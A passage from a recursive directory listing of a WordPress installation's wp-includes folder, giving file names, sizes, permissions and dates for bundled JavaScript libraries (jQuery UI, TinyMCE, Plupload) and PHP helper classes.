-rw-r--r--  1 www-data www-data  790 Apr 25  2012 imgareaselect.css
-rw-r--r--  1 www-data www-data  38K Jul 20  2015 jquery.imgareaselect.js
-rw-r--r--  1 www-data www-data 9.7K Jul 20  2015 jquery.imgareaselect.min.js

/var/www/html/wp-includes/js/jcrop:
total 32K
drwxr-xr-x  2 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 11 www-data www-data 4.0K Jun  8  2017 ..
-rw-r--r--  1 www-data www-data  323 Nov  7  2012 Jcrop.gif
-rw-r--r--  1 www-data www-data 2.1K Sep 21  2013 jquery.Jcrop.min.css
-rw-r--r--  1 www-data www-data  16K Sep 21  2013 jquery.Jcrop.min.js

/var/www/html/wp-includes/js/jquery:
total 268K
drwxr-xr-x  3 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 11 www-data www-data 4.0K Jun  8  2017 ..
-rw-r--r--  1 www-data www-data 9.1K Apr 10  2013 jquery.color.min.js
-rw-r--r--  1 www-data www-data  41K Sep 16  2013 jquery.form.js
-rw-r--r--  1 www-data www-data  15K Sep 16  2013 jquery.form.min.js
-rw-r--r--  1 www-data www-data 5.5K Jan  2  2014 jquery.hotkeys.js
-rw-r--r--  1 www-data www-data 1.8K Aug 23  2012 jquery.hotkeys.min.js
-rw-r--r--  1 www-data www-data  95K May 23  2016 jquery.js
-rw-r--r--  1 www-data www-data 1.8K Aug 18  2016 jquery.masonry.min.js
-rw-r--r--  1 www-data www-data  23K May 20  2016 jquery-migrate.js
-rw-r--r--  1 www-data www-data 9.9K May 20  2016 jquery-migrate.min.js
-rw-r--r--  1 www-data www-data 3.7K Jan 29  2013 jquery.query.js
-rw-r--r--  1 www-data www-data 3.4K Jan 10  2008 jquery.schedule.js
-rw-r--r--  1 www-data www-data  783 Jan 20  2011 jquery.serialize-object.js
-rw-r--r--  1 www-data www-data 3.7K Nov 15  2013 jquery.table-hotkeys.js
-rw-r--r--  1 www-data www-data 2.3K Aug 23  2012 jquery.table-hotkeys.min.js
-rw-r--r--  1 www-data www-data 1.2K Apr 11  2012 jquery.ui.touch-punch.js
-rw-r--r--  1 www-data www-data 6.9K Jan 13  2016 suggest.js
-rw-r--r--  1 www-data www-data 3.0K Jan 13  2016 suggest.min.js
drwxr-xr-x  2 www-data www-data 4.0K Jun  8  2017 ui

/var/www/html/wp-includes/js/jquery/ui:
total 340K
drwxr-xr-x 2 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Jun  8  2017 ..
-rw-r--r-- 1 www-data www-data 8.4K Nov  3  2016 accordion.min.js
-rw-r--r-- 1 www-data www-data 8.1K Nov  3  2016 autocomplete.min.js
-rw-r--r-- 1 www-data www-data 7.1K Nov  3  2016 button.min.js
-rw-r--r-- 1 www-data www-data 4.0K Nov  3  2016 core.min.js
-rw-r--r-- 1 www-data www-data  36K Nov  3  2016 datepicker.min.js
-rw-r--r-- 1 www-data www-data  12K Nov  3  2016 dialog.min.js
-rw-r--r-- 1 www-data www-data  19K Nov  3  2016 draggable.min.js
-rw-r--r-- 1 www-data www-data 6.2K Nov  3  2016 droppable.min.js
-rw-r--r-- 1 www-data www-data 1.2K Nov  7  2015 effect-blind.min.js
-rw-r--r-- 1 www-data www-data 1.3K Nov  3  2016 effect-bounce.min.js
-rw-r--r-- 1 www-data www-data  918 Nov  7  2015 effect-clip.min.js
-rw-r--r-- 1 www-data www-data  997 Nov  7  2015 effect-drop.min.js
-rw-r--r-- 1 www-data www-data 1.2K Nov  3  2016 effect-explode.min.js
-rw-r--r-- 1 www-data www-data  515 Nov  7  2015 effect-fade.min.js
-rw-r--r-- 1 www-data www-data 1.1K Nov  7  2015 effect-fold.min.js
-rw-r--r-- 1 www-data www-data  789 Nov  7  2015 effect-highlight.min.js
-rw-r--r-- 1 www-data www-data  14K Nov  3  2016 effect.min.js
-rw-r--r-- 1 www-data www-data  783 Nov  7  2015 effect-puff.min.js
-rw-r--r-- 1 www-data www-data  798 Nov  3  2016 effect-pulsate.min.js
-rw-r--r-- 1 www-data www-data 1.1K Nov  7  2015 effect-scale.min.js
-rw-r--r-- 1 www-data www-data 1.1K Nov  3  2016 effect-shake.min.js
-rw-r--r-- 1 www-data www-data 3.3K Apr 15  2016 effect-size.min.js
-rw-r--r-- 1 www-data www-data  962 Nov  7  2015 effect-slide.min.js
-rw-r--r-- 1 www-data www-data  857 Nov  7  2015 effect-transfer.min.js
-rw-r--r-- 1 www-data www-data 9.4K Nov  3  2016 menu.min.js
-rw-r--r-- 1 www-data www-data 3.1K Nov  3  2016 mouse.min.js
-rw-r--r-- 1 www-data www-data 6.4K Nov  3  2016 position.min.js
-rw-r--r-- 1 www-data www-data 2.5K Nov  3  2016 progressbar.min.js
-rw-r--r-- 1 www-data www-data  18K Nov  3  2016 resizable.min.js
-rw-r--r-- 1 www-data www-data 4.2K Nov  3  2016 selectable.min.js
-rw-r--r-- 1 www-data www-data 8.2K Nov  7  2015 selectmenu.min.js
-rw-r--r-- 1 www-data www-data  11K Nov  3  2016 slider.min.js
-rw-r--r-- 1 www-data www-data  25K Nov  3  2016 sortable.min.js
-rw-r--r-- 1 www-data www-data 7.0K Nov  3  2016 spinner.min.js
-rw-r--r-- 1 www-data www-data  12K Nov  3  2016 tabs.min.js
-rw-r--r-- 1 www-data www-data 5.6K Nov  3  2016 tooltip.min.js
-rw-r--r-- 1 www-data www-data 6.8K Nov  3  2016 widget.min.js

/var/www/html/wp-includes/js/mediaelement:
total 340K
drwxr-xr-x  2 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 11 www-data www-data 4.0K Jun  8  2017 ..
-rw-r--r--  1 www-data www-data  166 Mar 16  2013 background.png
-rw-r--r--  1 www-data www-data 3.0K Mar 16  2013 bigplay.png
-rw-r--r--  1 www-data www-data 1.1K Sep 11  2015 bigplay.svg
-rw-r--r--  1 www-data www-data 1.9K Mar 16  2013 controls.png
-rw-r--r--  1 www-data www-data  11K Mar 16  2013 controls.svg
-rw-r--r--  1 www-data www-data 128K Jul 18  2016 flashmediaelement.swf
-rw-r--r--  1 www-data www-data 1.8K Jan  9  2015 froogaloop.min.js
-rw-r--r--  1 www-data www-data 1.6K Sep 11  2015 jumpforward.png
-rw-r--r--  1 www-data www-data 6.1K Mar 16  2013 loading.gif
-rw-r--r--  1 www-data www-data  81K Jul 18  2016 mediaelement-and-player.min.js
-rw-r--r--  1 www-data www-data  20K Jul 18  2016 mediaelementplayer.min.css
-rw-r--r--  1 www-data www-data  13K Jun 28  2016 silverlightmediaelement.xap
-rw-r--r--  1 www-data www-data 4.2K Nov 30  2014 skipback.png
-rw-r--r--  1 www-data www-data 4.8K May 11  2017 wp-mediaelement.css
-rw-r--r--  1 www-data www-data 1.5K May 12  2017 wp-mediaelement.js
-rw-r--r--  1 www-data www-data 4.0K May 11  2017 wp-mediaelement.min.css
-rw-r--r--  1 www-data www-data  795 May 12  2017 wp-mediaelement.min.js
-rw-r--r--  1 www-data www-data 4.7K Feb 29  2016 wp-playlist.js
-rw-r--r--  1 www-data www-data 3.3K Nov  3  2016 wp-playlist.min.js

/var/www/html/wp-includes/js/plupload:
total 288K
drwxr-xr-x  2 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 11 www-data www-data 4.0K Jun  8  2017 ..
-rw-r--r--  1 www-data www-data  16K May 16  2017 handlers.js
-rw-r--r--  1 www-data www-data  11K May 16  2017 handlers.min.js
-rw-r--r--  1 www-data www-data  18K Jul 29  2011 license.txt
-rw-r--r--  1 www-data www-data  29K May  6  2016 plupload.flash.swf
-rw-r--r--  1 www-data www-data 111K Oct 10  2015 plupload.full.min.js
-rw-r--r--  1 www-data www-data  62K Oct 10  2015 plupload.silverlight.xap
-rw-r--r--  1 www-data www-data  13K Jun 16  2016 wp-plupload.js
-rw-r--r--  1 www-data www-data 4.9K Nov  3  2016 wp-plupload.min.js

/var/www/html/wp-includes/js/swfupload:
total 100K
drwxr-xr-x  3 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 11 www-data www-data 4.0K Jun  8  2017 ..
-rw-r--r--  1 www-data www-data  13K Apr 14  2017 handlers.js
-rw-r--r--  1 www-data www-data 8.7K Jun 21  2013 handlers.min.js
-rw-r--r--  1 www-data www-data 1.6K Jul 29  2011 license.txt
drwxr-xr-x  2 www-data www-data 4.0K Jun  8  2017 plugins
-rw-r--r--  1 www-data www-data  37K Sep  3  2016 swfupload.js
-rw-r--r--  1 www-data www-data  13K Jul 29  2013 swfupload.swf

/var/www/html/wp-includes/js/swfupload/plugins:
total 32K
drwxr-xr-x 2 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Jun  8  2017 ..
-rw-r--r-- 1 www-data www-data 1.6K Jul 29  2011 swfupload.cookies.js
-rw-r--r-- 1 www-data www-data 3.4K Jul 29  2011 swfupload.queue.js
-rw-r--r-- 1 www-data www-data  12K Jul 29  2011 swfupload.speed.js
-rw-r--r-- 1 www-data www-data 3.9K Jul 29  2011 swfupload.swfobject.js

/var/www/html/wp-includes/js/thickbox:
total 48K
drwxr-xr-x  2 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 11 www-data www-data 4.0K Jun  8  2017 ..
-rw-r--r--  1 www-data www-data  15K Nov  5  2012 loadingAnimation.gif
-rw-r--r--  1 www-data www-data   94 Nov  7  2012 macFFBgHack.png
-rw-r--r--  1 www-data www-data 2.6K May 23  2016 thickbox.css
-rw-r--r--  1 www-data www-data  13K May 23  2016 thickbox.js

/var/www/html/wp-includes/js/tinymce:
total 724K
drwxr-xr-x  7 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 11 www-data www-data 4.0K Jun  8  2017 ..
drwxr-xr-x  2 www-data www-data 4.0K Jun  8  2017 langs
-rw-r--r--  1 www-data www-data  26K May  8  2017 license.txt
drwxr-xr-x 23 www-data www-data 4.0K Jun  8  2017 plugins
drwxr-xr-x  4 www-data www-data 4.0K Jun  8  2017 skins
drwxr-xr-x  4 www-data www-data 4.0K Jun  8  2017 themes
-rw-r--r--  1 www-data www-data 451K May 30  2017 tinymce.min.js
-rw-r--r--  1 www-data www-data  16K May  8  2017 tiny_mce_popup.js
drwxr-xr-x  2 www-data www-data 4.0K Jun  8  2017 utils
-rw-r--r--  1 www-data www-data 196K May 30  2017 wp-tinymce.js.gz
-rw-r--r--  1 www-data www-data 1.1K Jan  3  2015 wp-tinymce.php

/var/www/html/wp-includes/js/tinymce/langs:
total 24K
drwxr-xr-x 2 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 7 www-data www-data 4.0K Jun  8  2017 ..
-rw-r--r-- 1 www-data www-data  16K Dec 16  2014 wp-langs-en.js

/var/www/html/wp-includes/js/tinymce/plugins:
total 92K
drwxr-xr-x 23 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x  7 www-data www-data 4.0K Jun  8  2017 ..
drwxr-xr-x  2 www-data www-data 4.0K Jun  8  2017 charmap
drwxr-xr-x  2 www-data www-data 4.0K Jun  8  2017 colorpicker
drwxr-xr-x  3 www-data www-data 4.0K Jun  8  2017 compat3x
drwxr-xr-x  2 www-data www-data 4.0K Jun  8  2017 directionality
drwxr-xr-x  2 www-data www-data 4.0K Jun  8  2017 fullscreen
drwxr-xr-x  2 www-data www-data 4.0K Jun  8  2017 hr
drwxr-xr-x  2 www-data www-data 4.0K Jun  8  2017 image
drwxr-xr-x  2 www-data www-data 4.0K Jun  8  2017 lists
drwxr-xr-x  2 www-data www-data 4.0K Jun  8  2017 media
drwxr-xr-x  2 www-data www-data 4.0K Jun  8  2017 paste
drwxr-xr-x  2 www-data www-data 4.0K Jun  8  2017 tabfocus
drwxr-xr-x  2 www-data www-data 4.0K Jun  8  2017 textcolor
drwxr-xr-x  2 www-data www-data 4.0K Jun  8  2017 wordpress
drwxr-xr-x  2 www-data www-data 4.0K Jun  8  2017 wpautoresize
drwxr-xr-x  2 www-data www-data 4.0K Jun  8  2017 wpdialogs
drwxr-xr-x  2 www-data www-data 4.0K Jun  8  2017 wpeditimage
drwxr-xr-x  2 www-data www-data 4.0K Jun  8  2017 wpemoji
drwxr-xr-x  2 www-data www-data 4.0K Jun  8  2017 wpgallery
drwxr-xr-x  2 www-data www-data 4.0K Jun  8  2017 wplink
drwxr-xr-x  2 www-data www-data 4.0K Jun  8  2017 wptextpattern
drwxr-xr-x  2 www-data www-data 4.0K Jun  8  2017 wpview

/var/www/html/wp-includes/js/tinymce/plugins/charmap:
total 40K
drwxr-xr-x  2 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 23 www-data www-data 4.0K Jun  8  2017 ..
-rw-r--r--  1 www-data www-data  18K May 30  2017 plugin.js
-rw-r--r--  1 www-data www-data 9.0K May 30  2017 plugin.min.js

/var/www/html/wp-includes/js/tinymce/plugins/colorpicker:
total 20K
drwxr-xr-x  2 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 23 www-data www-data 4.0K Jun  8  2017 ..
-rw-r--r--  1 www-data www-data 6.7K May  8  2017 plugin.js
-rw-r--r--  1 www-data www-data 2.1K May  8  2017 plugin.min.js

/var/www/html/wp-includes/js/tinymce/plugins/compat3x:
total 32K
drwxr-xr-x  3 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 23 www-data www-data 4.0K Jun  8  2017 ..
drwxr-xr-x  2 www-data www-data 4.0K Jun  8  2017 css
-rw-r--r--  1 www-data www-data 9.2K May  8  2017 plugin.js
-rw-r--r--  1 www-data www-data 4.1K May  8  2017 plugin.min.js

/var/www/html/wp-includes/js/tinymce/plugins/compat3x/css:
total 16K
drwxr-xr-x 2 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Jun  8  2017 ..
-rw-r--r-- 1 www-data www-data 7.9K Jul 26  2016 dialog.css

/var/www/html/wp-includes/js/tinymce/plugins/directionality:
total 20K
drwxr-xr-x  2 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 23 www-data www-data 4.0K Jun  8  2017 ..
-rw-r--r--  1 www-data www-data 5.2K May  8  2017 plugin.js
-rw-r--r--  1 www-data www-data 1.7K May  8  2017 plugin.min.js

/var/www/html/wp-includes/js/tinymce/plugins/fullscreen:
total 20K
drwxr-xr-x  2 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 23 www-data www-data 4.0K Jun  8  2017 ..
-rw-r--r--  1 www-data www-data 7.7K May  8  2017 plugin.js
-rw-r--r--  1 www-data www-data 2.6K May  8  2017 plugin.min.js

/var/www/html/wp-includes/js/tinymce/plugins/hr:
total 16K
drwxr-xr-x  2 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 23 www-data www-data 4.0K Jun  8  2017 ..
-rw-r--r--  1 www-data www-data 3.7K May  8  2017 plugin.js
-rw-r--r--  1 www-data www-data 1.2K May  8  2017 plugin.min.js

/var/www/html/wp-includes/js/tinymce/plugins/image:
total 48K
drwxr-xr-x  2 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 23 www-data www-data 4.0K Jun  8  2017 ..
-rw-r--r--  1 www-data www-data  25K May  8  2017 plugin.js
-rw-r--r--  1 www-data www-data 9.1K May  8  2017 plugin.min.js

/var/www/html/wp-includes/js/tinymce/plugins/lists:
total 68K
drwxr-xr-x  2 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 23 www-data www-data 4.0K Jun  8  2017 ..
-rw-r--r--  1 www-data www-data  44K May 11  2017 plugin.js
-rw-r--r--  1 www-data www-data  15K May 11  2017 plugin.min.js

/var/www/html/wp-includes/js/tinymce/plugins/media:
total 76K
drwxr-xr-x  2 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 23 www-data www-data 4.0K Jun  8  2017 ..
-rw-r--r--  1 www-data www-data  47K May  8  2017 plugin.js
-rw-r--r--  1 www-data www-data  17K May  8  2017 plugin.min.js

/var/www/html/wp-includes/js/tinymce/plugins/paste:
total 100K
drwxr-xr-x  2 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 23 www-data www-data 4.0K Jun  8  2017 ..
-rw-r--r--  1 www-data www-data  72K May 25  2017 plugin.js
-rw-r--r--  1 www-data www-data  20K May 25  2017 plugin.min.js

/var/www/html/wp-includes/js/tinymce/plugins/tabfocus:
total 24K
drwxr-xr-x  2 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 23 www-data www-data 4.0K Jun  8  2017 ..
-rw-r--r--  1 www-data www-data 8.2K May  8  2017 plugin.js
-rw-r--r--  1 www-data www-data 2.4K May  8  2017 plugin.min.js

/var/www/html/wp-includes/js/tinymce/plugins/textcolor:
total 32K
drwxr-xr-x  2 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 23 www-data www-data 4.0K Jun  8  2017 ..
-rw-r--r--  1 www-data www-data  13K May  8  2017 plugin.js
-rw-r--r--  1 www-data www-data 5.1K May  8  2017 plugin.min.js

/var/www/html/wp-includes/js/tinymce/plugins/wordpress:
total 56K
drwxr-xr-x  2 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 23 www-data www-data 4.0K Jun  8  2017 ..
-rw-r--r--  1 www-data www-data  29K May  9  2017 plugin.js
-rw-r--r--  1 www-data www-data  15K May  9  2017 plugin.min.js

/var/www/html/wp-includes/js/tinymce/plugins/wpautoresize:
total 20K
drwxr-xr-x  2 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 23 www-data www-data 4.0K Jun  8  2017 ..
-rw-r--r--  1 www-data www-data 5.9K Apr  9  2015 plugin.js
-rw-r--r--  1 www-data www-data 2.4K Nov  3  2016 plugin.min.js

/var/www/html/wp-includes/js/tinymce/plugins/wpdialogs:
total 16K
drwxr-xr-x  2 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 23 www-data www-data 4.0K Jun  8  2017 ..
-rw-r--r--  1 www-data www-data 2.4K Apr  8  2014 plugin.js
-rw-r--r--  1 www-data www-data 1.4K Apr  8  2014 plugin.min.js

/var/www/html/wp-includes/js/tinymce/plugins/wpeditimage:
total 56K
drwxr-xr-x  2 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 23 www-data www-data 4.0K Jun  8  2017 ..
-rw-r--r--  1 www-data www-data  31K May 18  2017 plugin.js
-rw-r--r--  1 www-data www-data  15K May 18  2017 plugin.min.js

/var/www/html/wp-includes/js/tinymce/plugins/wpemoji:
total 16K
drwxr-xr-x  2 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 23 www-data www-data 4.0K Jun  8  2017 ..
-rw-r--r--  1 www-data www-data 3.5K Mar 10  2016 plugin.js
-rw-r--r--  1 www-data www-data 1.6K Apr 15  2016 plugin.min.js

/var/www/html/wp-includes/js/tinymce/plugins/wpgallery:
total 16K
drwxr-xr-x  2 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 23 www-data www-data 4.0K Jun  8  2017 ..
-rw-r--r--  1 www-data www-data 3.2K Nov  7  2015 plugin.js
-rw-r--r--  1 www-data www-data 1.7K Nov  7  2015 plugin.min.js

/var/www/html/wp-includes/js/tinymce/plugins/wplink:
total 40K
drwxr-xr-x  2 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 23 www-data www-data 4.0K Jun  8  2017 ..
-rw-r--r--  1 www-data www-data  18K May 19  2017 plugin.js
-rw-r--r--  1 www-data www-data 8.8K May 19  2017 plugin.min.js

/var/www/html/wp-includes/js/tinymce/plugins/wptextpattern:
total 24K
drwxr-xr-x  2 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 23 www-data www-data 4.0K Jun  8  2017 ..
-rw-r--r--  1 www-data www-data 8.6K Nov  6  2016 plugin.js
-rw-r--r--  1 www-data www-data 3.1K Nov  6  2016 plugin.min.js

/var/www/html/wp-includes/js/tinymce/plugins/wpview:
total 20K
drwxr-xr-x  2 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 23 www-data www-data 4.0K Jun  8  2017 ..
-rw-r--r--  1 www-data www-data 5.3K May  8  2017 plugin.js
-rw-r--r--  1 www-data www-data 2.6K May  8  2017 plugin.min.js

/var/www/html/wp-includes/js/tinymce/skins:
total 16K
drwxr-xr-x 4 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 7 www-data www-data 4.0K Jun  8  2017 ..
drwxr-xr-x 4 www-data www-data 4.0K Jun  8  2017 lightgray
drwxr-xr-x 3 www-data www-data 4.0K Jun  8  2017 wordpress

/var/www/html/wp-includes/js/tinymce/skins/lightgray:
total 64K
drwxr-xr-x 4 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Jun  8  2017 ..
-rw-r--r-- 1 www-data www-data 3.1K May  8  2017 content.inline.min.css
-rw-r--r-- 1 www-data www-data 3.5K May  8  2017 content.min.css
drwxr-xr-x 2 www-data www-data 4.0K Jun  8  2017 fonts
drwxr-xr-x 2 www-data www-data 4.0K Jun  8  2017 img
-rw-r--r-- 1 www-data www-data  39K May  8  2017 skin.min.css

/var/www/html/wp-includes/js/tinymce/skins/lightgray/fonts:
total 180K
drwxr-xr-x 2 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Jun  8  2017 ..
-rw-r--r-- 1 www-data www-data  18K Apr  9  2017 tinymce.eot
-rw-r--r-- 1 www-data www-data 9.3K Jan 20  2016 tinymce-small.eot
-rw-r--r-- 1 www-data www-data  25K Jun 29  2016 tinymce-small.svg
-rw-r--r-- 1 www-data www-data 9.1K Jan 20  2016 tinymce-small.ttf
-rw-r--r-- 1 www-data www-data 9.2K Jan 20  2016 tinymce-small.woff
-rw-r--r-- 1 www-data www-data  45K Apr  9  2017 tinymce.svg
-rw-r--r-- 1 www-data www-data  17K Apr  9  2017 tinymce.ttf
-rw-r--r-- 1 www-data www-data  18K Apr  9  2017 tinymce.woff

/var/www/html/wp-includes/js/tinymce/skins/lightgray/img:
total 24K
drwxr-xr-x 2 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Jun  8  2017 ..
-rw-r--r-- 1 www-data www-data   53 Dec 28  2013 anchor.gif
-rw-r--r-- 1 www-data www-data 2.6K Dec 28  2013 loader.gif
-rw-r--r-- 1 www-data www-data  152 Dec 28  2013 object.gif
-rw-r--r-- 1 www-data www-data   43 Dec 28  2013 trans.gif

/var/www/html/wp-includes/js/tinymce/skins/wordpress:
total 24K
drwxr-xr-x 3 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Jun  8  2017 ..
drwxr-xr-x 2 www-data www-data 4.0K Jun  8  2017 images
-rw-r--r-- 1 www-data www-data 8.6K May 18  2017 wp-content.css

/var/www/html/wp-includes/js/tinymce/skins/wordpress/images:
total 64K
drwxr-xr-x 2 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Jun  8  2017 ..
-rw-r--r-- 1 www-data www-data  412 Feb 13  2014 audio.png
-rw-r--r-- 1 www-data www-data  368 Dec  2  2014 dashicon-edit.png
-rw-r--r-- 1 www-data www-data  339 Dec  2  2014 dashicon-no.png
-rw-r--r-- 1 www-data www-data 8.0K Nov 25  2014 embedded.png
-rw-r--r-- 1 www-data www-data  447 Feb 13  2014 gallery-2x.png
-rw-r--r-- 1 www-data www-data  379 Feb 13  2014 gallery.png
-rw-r--r-- 1 www-data www-data  603 Oct 28  2014 more-2x.png
-rw-r--r-- 1 www-data www-data  414 Oct 28  2014 more.png
-rw-r--r-- 1 www-data www-data  835 Apr  4  2014 pagebreak-2x.png
-rw-r--r-- 1 www-data www-data 1.2K Oct 28  2014 pagebreak.png
-rw-r--r-- 1 www-data www-data  440 Mar  5  2014 playlist-audio.png
-rw-r--r-- 1 www-data www-data  290 Mar  5  2014 playlist-video.png
-rw-r--r-- 1 www-data www-data  363 Feb 13  2014 video.png

/var/www/html/wp-includes/js/tinymce/themes:
total 16K
drwxr-xr-x 4 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 7 www-data www-data 4.0K Jun  8  2017 ..
drwxr-xr-x 2 www-data www-data 4.0K Jun  8  2017 inlite
drwxr-xr-x 2 www-data www-data 4.0K Jun  8  2017 modern

/var/www/html/wp-includes/js/tinymce/themes/inlite:
total 84K
drwxr-xr-x 2 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Jun  8  2017 ..
-rw-r--r-- 1 www-data www-data  55K May  8  2017 theme.js
-rw-r--r-- 1 www-data www-data  17K May  8  2017 theme.min.js

/var/www/html/wp-includes/js/tinymce/themes/modern:
total 68K
drwxr-xr-x 2 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Jun  8  2017 ..
-rw-r--r-- 1 www-data www-data  44K May 25  2017 theme.js
-rw-r--r-- 1 www-data www-data  15K May 25  2017 theme.min.js

/var/www/html/wp-includes/js/tinymce/utils:
total 36K
drwxr-xr-x 2 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 7 www-data www-data 4.0K Jun  8  2017 ..
-rw-r--r-- 1 www-data www-data 2.1K May  8  2017 editable_selects.js
-rw-r--r-- 1 www-data www-data 6.0K May  8  2017 form_utils.js
-rw-r--r-- 1 www-data www-data 4.1K May  8  2017 mctabs.js
-rw-r--r-- 1 www-data www-data 6.4K May  8  2017 validate.js

/var/www/html/wp-includes/pomo:
total 68K
drwxr-xr-x  2 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 18 www-data www-data  12K Jun  8  2017 ..
-rw-r--r--  1 www-data www-data 2.9K Nov 20  2015 entry.php
-rw-r--r--  1 www-data www-data 8.3K Oct 26  2016 mo.php
-rw-r--r--  1 www-data www-data  14K Dec 13  2016 po.php
-rw-r--r--  1 www-data www-data 5.9K Nov 20  2015 streams.php
-rw-r--r--  1 www-data www-data 8.6K Oct 31  2016 translations.php

/var/www/html/wp-includes/random_compat:
total 76K
drwxr-xr-x  2 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 18 www-data www-data  12K Jun  8  2017 ..
-rw-r--r--  1 www-data www-data 5.6K Mar  8  2016 byte_safe_strings.php
-rw-r--r--  1 www-data www-data 2.5K Mar  8  2016 cast_to_int.php
-rw-r--r--  1 www-data www-data 1.5K Oct 23  2015 error_polyfill.php
-rw-r--r--  1 www-data www-data 2.5K Mar  8  2016 random_bytes_com_dotnet.php
-rw-r--r--  1 www-data www-data 4.5K Mar  8  2016 random_bytes_dev_urandom.php
-rw-r--r--  1 www-data www-data 2.6K Mar  8  2016 random_bytes_libsodium_legacy.php
-rw-r--r--  1 www-data www-data 2.6K Mar  8  2016 random_bytes_libsodium.php
-rw-r--r--  1 www-data www-data 2.3K Mar  8  2016 random_bytes_mcrypt.php
-rw-r--r--  1 www-data www-data 2.6K Mar  8  2016 random_bytes_openssl.php
-rw-r--r--  1 www-data www-data 5.6K Mar  8  2016 random_int.php
-rw-r--r--  1 www-data www-data 7.6K Mar  8  2016 random.php

/var/www/html/wp-includes/Requests:
total 148K
drwxr-xr-x  9 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 18 www-data www-data  12K Jun  8  2017 ..
drwxr-xr-x  2 www-data www-data 4.0K Jun  8  2017 Auth
-rw-r--r--  1 www-data www-data  810 May 13  2016 Auth.php
drwxr-xr-x  2 www-data www-data 4.0K Jun  8  2017 Cookie
-rw-r--r--  1 www-data www-data  13K May 13  2016 Cookie.php
drwxr-xr-x  4 www-data www-data 4.0K Jun  8  2017 Exception
-rw-r--r--  1 www-data www-data 1.1K May 13  2016 Exception.php
-rw-r--r--  1 www-data www-data  708 May 13  2016 Hooker.php
-rw-r--r--  1 www-data www-data 1.4K May 13  2016 Hooks.php
-rw-r--r--  1 www-data www-data  12K Jun 10  2016 IDNAEncoder.php
-rw-r--r--  1 www-data www-data 4.9K May 13  2016 IPv6.php
-rw-r--r--  1 www-data www-data  28K Oct  5  2016 IRI.php
drwxr-xr-x  2 www-data www-data 4.0K Jun  8  2017 Proxy
-rw-r--r--  1 www-data www-data  813 May 13  2016 Proxy.php
drwxr-xr-x  2 www-data www-data 4.0K Jun  8  2017 Response
-rw-r--r--  1 www-data www-data 2.5K May 13  2016 Response.php
-rw-r--r--  1 www-data www-data 7.0K Jun 10  2016 Session.php
-rw-r--r--  1 www-data www-data 4.0K Jun 10  2016 SSL.php
drwxr-xr-x  2 www-data www-data 4.0K Jun  8  2017 Transport
-rw-r--r--  1 www-data www-data 1.2K May 13  2016 Transport.php
drwxr-xr-x  2 www-data www-data 4.0K Jun  8  2017 Utility

/var/www/html/wp-includes/Requests/Auth:
total 12K
drwxr-xr-x 2 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 9 www-data www-data 4.0K Jun  8  2017 ..
-rw-r--r-- 1 www-data www-data 1.9K May 13  2016 Basic.php

/var/www/html/wp-includes/Requests/Cookie:
total 12K
drwxr-xr-x 2 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 9 www-data www-data 4.0K Jun  8  2017 ..
-rw-r--r-- 1 www-data www-data 3.8K May 13  2016 Jar.php

/var/www/html/wp-includes/Requests/Exception:
total 24K
drwxr-xr-x 4 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 9 www-data www-data 4.0K Jun  8  2017 ..
drwxr-xr-x 2 www-data www-data 4.0K Jun  8  2017 HTTP
-rw-r--r-- 1 www-data www-data 1.4K May 13  2016 HTTP.php
drwxr-xr-x 2 www-data www-data 4.0K Jun  8  2017 Transport
-rw-r--r-- 1 www-data www-data   74 May 13  2016 Transport.php

/var/www/html/wp-includes/Requests/Exception/HTTP:
total 140K
drwxr-xr-x 2 www-data www-data 4.0K Jun  8  2017 .
